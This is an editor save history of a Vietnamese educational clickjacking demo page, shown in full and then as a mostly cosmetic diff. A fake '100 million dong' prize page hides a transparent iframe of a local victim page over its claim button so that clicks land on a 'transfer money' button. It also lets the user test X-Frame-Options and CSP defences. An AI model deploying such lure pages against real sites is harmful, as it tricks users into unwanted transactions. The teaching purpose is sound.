
Repository: Thu-art/clickjacking
Page: attacker.html
These files come from the project's save history. The page is drawn as it stood at one moment and after the next save; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2025-11-14 14:41:46.

### attacker.html
<!DOCTYPE html>
<html lang="vi">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>🎁 QUAY SỐ TRÚNG THƯỞNG - 100 TRIỆU ĐỒNG</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Arial', sans-serif;
            background: linear-gradient(135deg, #ff6b6b 0%, #feca57 100%);
            min-height: 100vh;
            overflow: hidden;
        }

        .attacker-page {
            position: relative;
            width: 100%;
            height: 100vh;
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            z-index: 1;
        }

        .title {
            font-size: 48px;
            font-weight: bold;
            color: white;
            text-shadow: 3px 3px 6px rgba(0,0,0,0.3);
            margin-bottom: 20px;
            animation: pulse 2s infinite;
            text-align: center;
        }

        @keyframes pulse {
            0%, 100% { transform: scale(1); }
            50% { transform: scale(1.05); }
        }

        .subtitle {
            font-size: 24px;
            color: white;
            margin-bottom: 40px;
            text-align: center;
        }

        .prize-box {
            background: white;
            padding: 40px;
            border-radius: 20px;
            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
            text-align: center;
            position: relative;
            z-index: 2;
        }

        .prize-amount {
            font-size: 64px;
            font-weight: bold;
            color: #ff6b6b;
            margin-bottom: 20px;
        }

        .prize-text {
            font-size: 20px;
            color: #666;
            margin-bottom: 30px;
        }

        .spin-button {
            padding: 20px 60px;
            font-size: 24px;
            font-weight: bold;
            background: linear-gradient(135deg, #ff6b6b 0%, #ff5252 100%);
            color: white;
            border: none;
            border-radius: 50px;
            cursor: pointer;
            box-shadow: 0 10px 30px rgba(255, 107, 107, 0.4);
            transition: all 0.3s;
            position: relative;
            z-index: 3;
        }

        .spin-button:hover {
            transform: translateY(-3px);
            box-shadow: 0 15px 40px rgba(255, 107, 107, 0.6);
        }

        .spin-button:active {
            transform: translateY(0);
        }

        /* IFRAME OVERLAY - Đây là phần quan trọng nhất */
        .iframe-overlay {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.0; /* Trong suốt hoàn toàn */
            z-index: 9999; /* Nằm trên cùng */
            pointer-events: auto;
            display: none; /* Ẩn mặc định */
        }

        .iframe-overlay.active {
            display: block;
        }

        .victim-iframe {
            width: 100%;
            height: 100%;
            border: none;
            transform: scale(1.2); /* Phóng to để căn chỉnh button */
            transform-origin: center center;
        }

        .controls {
            position: fixed;
            top: 20px;
            right: 20px;
            background: rgba(0,0,0,0.8);
            padding: 20px;
            border-radius: 10px;
            color: white;
            z-index: 10000;
        }

        .controls h3 {
            margin-bottom: 15px;
            color: #feca57;
        }

        .control-btn {
            display: block;
            width: 100%;
            padding: 10px;
            margin: 5px 0;
            background: #667eea;
            color: white;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            font-size: 14px;
        }

        .control-btn:hover {
            background: #764ba2;
        }

        .control-btn.danger {
            background: #e74c3c;
        }

        .control-btn.danger:hover {
            background: #c0392b;
        }

        .slider-group {
            margin: 10px 0;
        }

        .slider-group label {
            display: block;
            margin-bottom: 5px;
            font-size: 12px;
        }

        .slider-group input {
            width: 100%;
        }

        .info-box {
            background: rgba(255, 255, 255, 0.1);
            padding: 10px;
            border-radius: 5px;
            margin-top: 15px;
            font-size: 12px;
            border: 1px solid rgba(255, 255, 255, 0.2);
        }

        .warning-banner {
            position: fixed;
            bottom: 20px;
            left: 50%;
            transform: translateX(-50%);
            background: rgba(231, 76, 60, 0.95);
            color: white;
            padding: 15px 30px;
            border-radius: 10px;
            font-weight: bold;
            z-index: 10001;
            box-shadow: 0 5px 20px rgba(0,0,0,0.3);
        }

        .confetti {
            position: fixed;
            width: 10px;
            height: 10px;
            background: #feca57;
            animation: fall 3s linear infinite;
        }

        @keyframes fall {
            to {
                transform: translateY(100vh) rotate(360deg);
            }
        }
    </style>
</head>
<body>
    <div class="attacker-page">
        <h1 class="title">🎁 CHÚC MỪNG! 🎁</h1>
        <p class="subtitle">Bạn đã trúng thưởng chương trình khuyến mãi đặc biệt!</p>

        <div class="prize-box">
            <div class="prize-amount">100,000,000₫</div>
            <p class="prize-text">Nhấn nút bên dưới để nhận thưởng ngay!</p>
            <button class="spin-button" id="claimButton">🎉 NHẬN THƯỞNG NGAY 🎉</button>
        </div>
    </div>

    <!-- IFRAME OVERLAY - Trang nạn nhân bị overlay -->
    <div class="iframe-overlay" id="iframeOverlay">
        <iframe
           id="victimFrame"
            class="victim-iframe"
            sandbox="allow-same-origin allow-scripts allow-forms"
            title="Hidden Frame">
        </iframe>
    </div>

    <!-- Panel điều khiển cho demo -->
    <div class="controls">
        <h3>⚙️ Điều khiển Demo</h3>

        <button class="control-btn danger" onclick="activateAttack()">
            🎯 KÍCH HOẠT TẤN CÔNG
        </button>

        <button class="control-btn" onclick="deactivateAttack()">
            🛑 TẮT TẤN CÔNG
        </button>

        <div class="slider-group">
            <label>Độ trong suốt iframe: <span id="opacityValue">0%</span></label>
            <input type="range" min="0" max="100" value="0" id="opacitySlider" oninput="adjustOpacity(this.value)">
        </div>

        <div class="slider-group">
            <label>Scale iframe: <span id="scaleValue">1.2x</span></label>
            <input type="range" min="50" max="200" value="120" id="scaleSlider" oninput="adjustScale(this.value)">
        </div>

        <div class="slider-group">
            <label>Vị trí Y: <span id="posYValue">0px</span></label>
            <input type="range" min="-500" max="500" value="0" id="posYSlider" oninput="adjustPosition(this.value)">
        </div>

        <div class="info-box">
            <strong>📌 Hướng dẫn:</strong><br>
            1. Nhấn "Kích hoạt tấn công"<br>
            2. Điều chỉnh độ trong suốt để thấy iframe<br>
            3. Căn chỉnh vị trí nút "Chuyển tiền" trên nút "Nhận thưởng"<br>
            4. Giảm opacity về 0% và thử click
        </div>
    </div>

    <div class="warning-banner">
        ⚠️ ĐÂY LÀ DEMO GIÁO DỤC - KHÔNG SỬ DỤNG VÀO MỤC ĐÍCH XẤU
    </div>

    <script>
        let attackActive = false;

        function activateAttack() {
    attackActive = true;
    const overlay = document.getElementById('iframeOverlay');
    const iframe = document.getElementById('victimFrame');

    // Lấy chế độ bảo vệ mà người dùng muốn kiểm tra
    const protectionMode = prompt(
        "Nhập chế độ bảo vệ bạn muốn kiểm tra trên Victim:\n" +
        "none, xframe, csp, sameorigin, all (mặc định là 'none' để tấn công thành công)"
    ) || 'none';

    // ⚠️ Chỉ định rõ tham số protection cho trang nạn nhân
    iframe.src = `/victim.html?protection=${protectionMode}`;

    overlay.classList.add('active');

    alert('⚠️ TẤN CÔNG ĐÃ KÍCH HOẠT!\n' +
          `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
          'Bây giờ hãy điều chỉnh độ trong suốt và vị trí.');
}

        function deactivateAttack() {
            attackActive = false;
            const overlay = document.getElementById('iframeOverlay');
            overlay.classList.remove('active');
            document.getElementById('opacitySlider').value = 0;
            document.getElementById('opacityValue').textContent = '0%';
        }

        function adjustOpacity(value) {
            const overlay = document.getElementById('iframeOverlay');
            overlay.style.opacity = value / 100;
            document.getElementById('opacityValue').textContent = value + '%';
        }

        function adjustScale(value) {
            const iframe = document.getElementById('victimFrame');
            iframe.style.transform = `scale(${value / 100})`;
            document.getElementById('scaleValue').textContent = (value / 100).toFixed(2) + 'x';
        }

        function adjustPosition(value) {
            const iframe = document.getElementById('victimFrame');
            const currentTransform = iframe.style.transform;
            const scale = currentTransform.match(/scale\(([\d.]+)\)/)?.[1] || 1.2;
            iframe.style.transform = `scale(${scale}) translateY(${value}px)`;
            document.getElementById('posYValue').textContent = value + 'px';
        }

        // Hiệu ứng confetti
        function createConfetti() {
            const confetti = document.createElement('div');
            confetti.className = 'confetti';
            confetti.style.left = Math.random() * 100 + '%';
            confetti.style.background = ['#ff6b6b', '#feca57', '#48dbfb', '#ff9ff3'][Math.floor(Math.random() * 4)];
            confetti.style.animationDelay = Math.random() * 3 + 's';
            document.body.appendChild(confetti);

            setTimeout(() => confetti.remove(), 3000);
        }

        setInterval(createConfetti, 300);

        // Xử lý click nút claim
        document.getElementById('claimButton').addEventListener('click', function() {
            if (!attackActive) {
                alert('🎉 Cảm ơn bạn đã tham gia!\n\nĐây chỉ là trang demo giáo dục về Clickjacking.');
            }
        });

        // Kiểm tra iframe load
        document.getElementById('victimFrame').addEventListener('load', function() {
            console.log('Iframe loaded successfully');
        });

        document.getElementById('victimFrame').addEventListener('error', function() {
            console.error('Iframe failed to load - probably blocked by protection');
            alert('⚠️ IFRAME BỊ CHẶN!\n\n' +
                  'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.\n' +
                  'Có thể là:\n' +
                  '- X-Frame-Options: DENY\n' +
                  '- CSP frame-ancestors \'none\'\n' +
                  '- Frame Buster JavaScript');
        });
    </script>
</body>
</html>

After the next save:

Saved 6 min 57 s later.
--- a/attacker.html
+++ b/attacker.html
@@ -1,5 +1,6 @@
 <!DOCTYPE html>
 <html lang="vi">
+
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
@@ -33,15 +34,22 @@
             font-size: 48px;
             font-weight: bold;
             color: white;
-            text-shadow: 3px 3px 6px rgba(0,0,0,0.3);
+            text-shadow: 3px 3px 6px rgba(0, 0, 0, 0.3);
             margin-bottom: 20px;
             animation: pulse 2s infinite;
             text-align: center;
         }
 
         @keyframes pulse {
-            0%, 100% { transform: scale(1); }
-            50% { transform: scale(1.05); }
+
+            0%,
+            100% {
+                transform: scale(1);
+            }
+
+            50% {
+                transform: scale(1.05);
+            }
         }
 
         .subtitle {
@@ -55,7 +63,7 @@
             background: white;
             padding: 40px;
             border-radius: 20px;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
+            box-shadow: 0 20px 60px rgba(0, 0, 0, 0.3);
             text-align: center;
             position: relative;
             z-index: 2;
@@ -105,10 +113,13 @@
             left: 0;
             width: 100%;
             height: 100%;
-            opacity: 0.0; /* Trong suốt hoàn toàn */
-            z-index: 9999; /* Nằm trên cùng */
+            opacity: 0.0;
+            /* Trong suốt hoàn toàn */
+            z-index: 9999;
+            /* Nằm trên cùng */
             pointer-events: auto;
-            display: none; /* Ẩn mặc định */
+            display: none;
+            /* Ẩn mặc định */
         }
 
         .iframe-overlay.active {
@@ -119,7 +130,8 @@
             width: 100%;
             height: 100%;
             border: none;
-            transform: scale(1.2); /* Phóng to để căn chỉnh button */
+            transform: scale(1.2);
+            /* Phóng to để căn chỉnh button */
             transform-origin: center center;
         }
 
@@ -127,7 +139,7 @@
             position: fixed;
             top: 20px;
             right: 20px;
-            background: rgba(0,0,0,0.8);
+            background: rgba(0, 0, 0, 0.8);
             padding: 20px;
             border-radius: 10px;
             color: white;
@@ -198,7 +210,7 @@
             border-radius: 10px;
             font-weight: bold;
             z-index: 10001;
-            box-shadow: 0 5px 20px rgba(0,0,0,0.3);
+            box-shadow: 0 5px 20px rgba(0, 0, 0, 0.3);
         }
 
         .confetti {
@@ -216,6 +228,7 @@
         }
     </style>
 </head>
+
 <body>
     <div class="attacker-page">
         <h1 class="title">🎁 CHÚC MỪNG! 🎁</h1>
@@ -230,10 +243,7 @@
 
     <!-- IFRAME OVERLAY - Trang nạn nhân bị overlay -->
     <div class="iframe-overlay" id="iframeOverlay">
-        <iframe
-           id="victimFrame"
-            class="victim-iframe"
-            sandbox="allow-same-origin allow-scripts allow-forms"
+        <iframe id="victimFrame" class="victim-iframe" sandbox="allow-same-origin allow-scripts allow-forms"
             title="Hidden Frame">
         </iframe>
     </div>
@@ -249,6 +259,10 @@
         <button class="control-btn" onclick="deactivateAttack()">
             🛑 TẮT TẤN CÔNG
         </button>
+        <div class="slider-group">
+            <label for="protectionInput">Chế độ bảo vệ Victim (ví dụ: none, csp, xframe):</label>
+            <input type="text" id="protectionInput" value="none" placeholder="none, csp, xframe...">
+        </div>
 
         <div class="slider-group">
             <label>Độ trong suốt iframe: <span id="opacityValue">0%</span></label>
@@ -281,26 +295,24 @@
     <script>
         let attackActive = false;
 
+        // TRONG ATTACKER.HTML - Sửa lại hàm này
         function activateAttack() {
-    attackActive = true;
-    const overlay = document.getElementById('iframeOverlay');
-    const iframe = document.getElementById('victimFrame');
-
-    // Lấy chế độ bảo vệ mà người dùng muốn kiểm tra
-    const protectionMode = prompt(
-        "Nhập chế độ bảo vệ bạn muốn kiểm tra trên Victim:\n" +
-        "none, xframe, csp, sameorigin, all (mặc định là 'none' để tấn công thành công)"
-    ) || 'none';
-
-    // ⚠️ Chỉ định rõ tham số protection cho trang nạn nhân
-    iframe.src = `/victim.html?protection=${protectionMode}`;
-
-    overlay.classList.add('active');
-
-    alert('⚠️ TẤN CÔNG ĐÃ KÍCH HOẠT!\n' +
-          `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
-          'Bây giờ hãy điều chỉnh độ trong suốt và vị trí.');
-}
+            attackActive = true;
+            const overlay = document.getElementById('iframeOverlay');
+            const iframe = document.getElementById('victimFrame');
+
+            // Lấy chế độ bảo vệ từ ô input
+            const protectionMode = document.getElementById('protectionInput').value.toLowerCase() || 'none';
+
+            // ⚠️ Chỉ định tham số protection cho trang nạn nhân
+            iframe.src = `/victim.html?protection=${protectionMode}`;
+
+            overlay.classList.add('active');
+
+            alert('⚠️ TẤN CÔNG ĐÃ KÍCH HOẠT!\n' +
+                `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
+                'Bây giờ hãy điều chỉnh độ trong suốt và vị trí. Nếu bạn chọn CSP/XFRAME, iframe sẽ bị chặn.');
+        }
 
         function deactivateAttack() {
             attackActive = false;
@@ -345,26 +357,27 @@
         setInterval(createConfetti, 300);
 
         // Xử lý click nút claim
-        document.getElementById('claimButton').addEventListener('click', function() {
+        document.getElementById('claimButton').addEventListener('click', function () {
             if (!attackActive) {
                 alert('🎉 Cảm ơn bạn đã tham gia!\n\nĐây chỉ là trang demo giáo dục về Clickjacking.');
             }
         });
 
         // Kiểm tra iframe load
-        document.getElementById('victimFrame').addEventListener('load', function() {
+        document.getElementById('victimFrame').addEventListener('load', function () {
             console.log('Iframe loaded successfully');
         });
 
-        document.getElementById('victimFrame').addEventListener('error', function() {
+        document.getElementById('victimFrame').addEventListener('error', function () {
             console.error('Iframe failed to load - probably blocked by protection');
             alert('⚠️ IFRAME BỊ CHẶN!\n\n' +
-                  'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.\n' +
-                  'Có thể là:\n' +
-                  '- X-Frame-Options: DENY\n' +
-                  '- CSP frame-ancestors \'none\'\n' +
-                  '- Frame Buster JavaScript');
+                'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.\n' +
+                'Có thể là:\n' +
+                '- X-Frame-Options: DENY\n' +
+                '- CSP frame-ancestors \'none\'\n' +
+                '- Frame Buster JavaScript');
         });
     </script>
 </body>
+
 </html>
